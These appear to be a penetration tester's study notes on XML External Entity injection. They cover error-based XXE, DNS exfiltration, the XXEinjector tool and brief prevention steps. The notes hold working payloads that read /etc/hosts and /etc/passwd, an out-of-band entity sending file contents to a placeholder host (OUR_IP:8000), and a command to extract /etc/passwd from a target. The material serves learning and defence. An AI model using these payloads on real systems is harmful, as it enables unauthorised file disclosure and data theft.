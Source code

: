 #### Error based

Just broke a tag or local file path:
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
or
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

##### DNS exfiltration
[[DNS]]
Put data to subdomain and check with tcmpdump.
`ENCODEDTEXT.our.website.com`
#### Automation
https://github.com/enjoiz/XXEinjector

xxe.req
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```


```shell
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

cat Logs/10.129.201.94/etc/passwd.log 
```

#### Prevention

Disable https://www.php.net/manual/en/function.libxml-disable-entity-loader.php

https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html#php

XML:
- Disable referencing custom `Document Type Definitions (DTDs)`
- Disable referencing `External XML Entities`
- Disable `Parameter Entity` processing
- Disable support for `XInclude`
- Prevent `Entity Reference Loops`